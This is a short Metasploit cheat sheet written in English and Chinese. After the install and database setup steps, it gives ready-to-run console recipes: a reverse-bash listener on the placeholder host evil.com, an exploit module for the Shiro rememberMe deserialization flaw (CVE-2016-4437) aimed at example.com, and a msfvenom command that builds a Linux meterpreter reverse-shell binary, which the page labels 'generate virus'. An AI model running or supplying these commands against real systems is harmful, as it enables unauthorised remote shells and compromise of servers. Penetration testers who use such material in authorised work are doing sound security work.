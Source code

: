 The world’s most used penetration testing framework.

## 1. Install

安装

```
┌──(sec@debian)-[~]
└─$ curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall \
&& chmod 755 msfinstall \
&& ./msfinstall && rm -f ./msfinstall
```

## 2. Init

```
┌──(sec@debian)-[~]
└─$ msfdb init
```

## 3. Usage

### 3.1. msfconsole

启动数据库

```
┌──(sec@debian)-[~]
└─$ msfdb start
```

进入控制台

```
┌──(sec@debian)-[~]
└─$ msfconsole
```

Listen

```
use exploit/multi/handler
show options
set PAYLOAD cmd/unix/reverse_bash
set LHOST evil.com
set LPORT 4444
run
```

Exploit

```
search CVE-2016-4437
use exploit/multi/http/shiro_rememberme_v124_deserialize
show options
set TARGET 0
set PAYLOAD cmd/unix/reverse
set RHOSTS example.com
set RPORT 8080
set LHOST evil.com
set LPORT 4444
run
```

### 3.2. msfvenom

生成病毒

```
┌──(sec@debian)-[~]
└─$ msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=evil.com LPORT=4444 -f elf -o ./venom
```

---

References

- [Metasploit](https://www.metasploit.com/)
- [Installing Metasploit on Linux / macOS](https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html)

